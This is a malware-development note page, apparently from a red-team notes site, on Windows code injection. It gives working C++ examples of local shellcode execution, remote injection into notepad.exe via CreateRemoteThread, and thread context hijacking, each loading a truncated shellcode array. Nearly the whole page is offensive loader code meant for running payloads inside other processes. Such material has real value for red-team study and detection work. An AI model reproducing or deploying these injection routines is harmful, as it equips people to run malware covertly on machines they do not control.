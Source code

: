```yaml
---
title: Introduction
category: Maldev-Code Injection
order: 1
---
```


Is a technique useful to escape from short-lived process or to change the working context.

> **Note**: You can't see the output of the payload injected on other process.

There are different techniques, the most common are payload injection and dll injection. The payload can be injected on a different process or in the current process.


# Local Classic Technique (VirtualAlloc)

The behavior of a local classic injection:

* `VirtualAlloc`: Create a memory space to store our payload. Normally the buffer is created with `PAGE_READWRITE` rights.
* `RtlMoveMemory`: Copy the payload to the new allocated space.
* `VirtualProtect`: Change the protection to `PAGE_READEXECUTE`.
* `CreateThread`: Execute the payload.

Example of local injection:

![](/rtnotes/classic-injection.png)

```cpp
int main(int argc, char ** argv) {

    LPVOID pexec;
    HANDLE hThread;
    BOOL rv;
    DWORD oldprotect;

    char payload[] = {0xfc, 0x48, 0x83,...};


    pexec = VirtualAlloc(0, sizeof(payload), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    RtlMoveMemory(pexec, payload, sizeof(payload));
    rv = VirtualProtect(pexec, sizeof(payload), PAGE_EXECUTE_READ, &oldprotect);
    if(rv){
        hThread = CreateThread(0,0, (LPTHREAD_START_ROUTINE)pexec, 0,0,0);
        WaitForSingleObject(hThread, -1);
    }
    CloseHandle(hThread);
    return 0;
}
```

# Remote Classic Technique (VirtualAllocEx)

The behavior of a remote classic injection:

* `VirtualAlllocEx`: Create a memory space to store our payload on a process. Normally the buffer is created with `PAGE_READWRITE` rights.
* `WriteProcessMemory`: Copy the payload to the new allocated space.
* `VirtualProtectEx`: Change the protection to `PAGE_READEXECUTE`.
* `CreateRemoteThread`, `RtlCreateUserThread` or `NtCreateThreadEx`: Execute the payload.

Example of remote injection:

```cpp
int main(void) {
    
    int pid = 0;
    HANDLE hProc = NULL;
    LPVOID pexec = NULL;
    HANDLE hThread = NULL;
    DWORD oldprotect;
    char payload[] = {0xfc, 0x48, 0x83,...};
    int payload_len = sizeof(payload);

    pid = FindProcess("notepad.exe");

    if (pid) {
        printf("Notepad.exe PID = %d\n", pid);

        // try to open target process
        hProc = OpenProcess( PROCESS_CREATE_THREAD | PROCESS_QUERY_INFORMATION | 
                        PROCESS_VM_OPERATION | PROCESS_VM_READ | PROCESS_VM_WRITE,
                        FALSE, (DWORD) pid);

        if (hProc != NULL) {
            pexec = VirtualAllocEx(hProc, NULL, payload_len, MEM_COMMIT, PAGE_READWRITE);
            WriteProcessMemory(hProc, pexec, (PVOID)payload, (SIZE_T)payload_len, (SIZE_T *)NULL);
            VirtualProtectEx(hProc, pexec, payload_len, PAGE_EXECUTE_READ, &oldprotect);
            hThread = CreateRemoteThread(hProc, NULL, 0, (LPTHREAD_START_ROUTINE)pexec, NULL, 0, NULL);
            if(hThread != NULL){
                WaitForSingleObject(hThread, -1);
                CloseHandle(hThread);
            }
            CloseHandle(hProc);
        }
    }
    return 0;
}
```

Check *Object Enumeration - Process Enumeration* section to get more info about `FindProcess`:

* [https://benjugat.github.io/rtnotes/malware/object-enumeration/processes/](https://benjugat.github.io/rtnotes/malware/object-enumeration/processes/)


# Thread Context Injection

Instead of create a new thread on the target process we can get an existing one, suspend it, modify the EIP or RIP (next instruction pointer) specifying our payload and resume the thread.

> **Note**: Since we are hijacking the thread, we will break the process. **IT WILL CRASH THE PROCESS**.

The behavior of a thread context injection:

* `OpenProcess`, `OpenThread`: Obtain a thread handle from a remote process.
* `VirtualAllocEx`: Allocate memory space for our payload with `PAGE_READWRITE` rights.
* `WriteProcessMemory`: Copy the payload to the new allocated space.
* `VirtualProtectEx`: Change the rights to `PAGE_EXECUTE_READ` of the new allocated space.
* `SuspendThread`: Suspend the thread.
* `GetThreadContext`: Get all the Context of the suspended thread.
* `SetThreadContext`: Change the next instruction pointer (EIP or RIP) to our allocated memory space.
* `ResumeThread`: Execute the payload.

Example of thread context injection.

```cpp
int main(void) {
    
    int pid = 0;
    HANDLE hProc = NULL;
    LPVOID pexec = NULL;
    HANDLE hThread = NULL;
    DWORD oldprotect;
    char payload[] = {0xfc, 0x48, ...};
    int payload_len = sizeof(payload);
    CONTEXT ctx;
    pid = FindProcess("notepad.exe");

    if (pid) {
        printf("Notepad.exe PID = %d\n", pid);

        // try to open target process
        hProc = OpenProcess( PROCESS_CREATE_THREAD | PROCESS_QUERY_INFORMATION | 
                        PROCESS_VM_OPERATION | PROCESS_VM_READ | PROCESS_VM_WRITE,
                        FALSE, (DWORD) pid);

        if (hProc != NULL) {
            hThread = FindThread(pid);
            if(hThread != NULL){
                pexec = VirtualAllocEx(hProc, NULL, payload_len, MEM_COMMIT, PAGE_READWRITE); 
                WriteProcessMemory(hProc, pexec, (PVOID)payload, (SIZE_T)payload_len, (SIZE_T *)NULL);
                VirtualProtectEx(hProc, pexec, payload_len, PAGE_EXECUTE_READ, &oldprotect);
                ctx.ContextFlags = CONTEXT_FULL;
                SuspendThread(hThread);
                GetThreadContext(hThread, &ctx);
            #ifdef _M_IX86 
	            ctx.Eip = (DWORD_PTR) pexec;
            #else
	            ctx.Rip = (DWORD_PTR) pexec;
            #endif
                SetThreadContext(hThread, &ctx);
                ResumeThread(hThread);
                
            }
            CloseHandle(hThread);
        }
        CloseHandle(hProc);    
    }
    return 0;
}
```

Check *Object Enumeration*-> *Process Enumeration* and *Thread Enumeration* sections to get more info about `FindProcess`:

* [https://benjugat.github.io/rtnotes/malware/object-enumeration/processes/](https://benjugat.github.io/rtnotes/malware/object-enumeration/processes/)
* [https://benjugat.github.io/rtnotes/malware/object-enumeration/threads/](https://benjugat.github.io/rtnotes/malware/object-enumeration/threads/)